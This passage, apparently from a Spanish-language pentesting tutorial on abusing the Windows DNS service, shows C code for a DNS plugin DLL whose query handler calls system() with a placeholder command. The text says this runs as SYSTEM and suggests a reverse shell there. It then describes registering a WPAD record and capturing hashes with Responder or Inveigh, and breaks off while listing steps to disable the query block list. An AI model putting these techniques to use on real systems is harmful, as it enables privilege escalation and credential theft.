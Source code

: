 ```c
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}

```

* `kdns_DnsPluginInitialize(...)` y `kdns_DnsPluginCleanup()` — funciones de inicialización/limpieza que retornan `ERROR_SUCCESS` (0) para indicar que todo bien.
* `kdns_DnsPluginQuery(...)` — función llamada por el servicio DNS cuando procesa una query. En el ejemplo:

  * Se abre o crea un fichero de log `kiwidns.log` y escribe la consulta (`pszQueryName` y `wQueryType`).
  * Luego ejecuta `system("ENTER COMMAND HERE");` — aquí se puede poner una línea para lanzar una reverse shell o cualquier comando.
* **Concepto:** colocar comandos en `system()` dentro de la función que se ejecuta con contexto del servicio permite ejecución de comandos como SYSTEM.

---

## Otra forma de abuso: crear un registro WPAD

**Contexto:** WPAD (Web Proxy Auto-Discovery) permite a clientes autoconfigurarse para usar un proxy en la red. Si un atacante agrega un registro DNS `wpad.<dominio>` apuntando al atacante, muchos hosts que ejecuten WPAD con la configuración predeterminada consultarán esa entrada y podrán ser forzados a usar el proxy del atacante.

Podríamos usar una herramienta como [`Responder`](https://github.com/lgandx/Responder) o [`Inveigh`](https://github.com/Kevin-Robertson/Inveigh) para spoofear el tráfico e intentar capturar hashes de contraseñas y descifrarlos sin conexión, o bien, realizar un ataque SMBRelay.


**Protección por defecto:** los servidores DNS introdujeron una *global query block list* que bloquea nombres problemáticos por defecto (ej. `wpad`, `isatap`).



**Pasos del texto para abusar:**

1. **Deshabilitar la lista global de bloqueos:**
